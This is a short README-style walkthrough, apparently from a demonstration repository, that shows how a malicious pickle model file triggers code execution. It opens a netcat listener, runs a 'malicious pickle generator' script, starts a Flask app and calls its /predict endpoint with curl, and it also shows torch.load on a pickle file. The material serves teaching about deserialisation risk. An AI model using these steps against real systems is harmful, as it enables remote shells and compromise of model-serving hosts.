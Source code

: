 Open a new tab

```
nc -nvl 14344
```

Open a new tab to run the malicious pickle generator script

```
python generate_h5_file.py
```

Open a new tab to run the Flask app

```
flask run
```

Trigger the endpoint

```
curl -d "x=1" http://127.0.0.1:5000/predict
```

Similarly, with PyTorch

```
import torch
torch.load("model.pkl")
```